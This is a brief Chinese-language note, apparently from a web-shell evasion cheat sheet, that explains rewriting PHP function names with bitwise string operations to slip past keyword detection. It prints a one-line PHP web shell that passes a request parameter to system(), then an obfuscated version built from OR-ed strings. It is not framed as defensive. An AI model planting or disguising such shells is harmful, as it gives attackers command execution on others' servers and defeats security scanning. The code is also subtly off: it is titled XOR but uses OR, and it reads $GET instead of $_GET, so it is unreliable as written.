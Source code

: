 # PHP XOR

简介：利用逻辑运算生成关键词来替换敏感关键词，绕过关键词检测

例：
```php
<?php system($GET['c']);?>
```
可替换为：
```php
<?php ('!!!0!!'|'RXRDDL')($GET['c']);?>
```
